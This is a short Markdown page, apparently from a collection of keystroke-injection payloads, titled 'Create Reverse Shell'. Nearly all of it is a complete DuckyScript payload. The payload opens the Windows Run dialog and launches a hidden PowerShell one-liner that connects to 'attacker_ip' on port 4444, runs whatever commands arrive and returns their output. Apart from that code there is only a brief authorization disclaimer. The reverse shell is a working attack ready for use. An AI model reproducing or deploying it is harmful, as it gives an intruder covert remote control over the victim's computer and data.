 # Create Reverse Shell

This Windows reverse shell connects back to an attacker's server.

```       
DELAY 500
GUI r
DELAY 200
STRING powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('attacker_ip', 4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..255|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) { $data = (New-Object Text.ASCIIEncoding).GetString($bytes, 0, $i); $sendback = (iex $data 2>&1 | Out-String); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush() }"
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.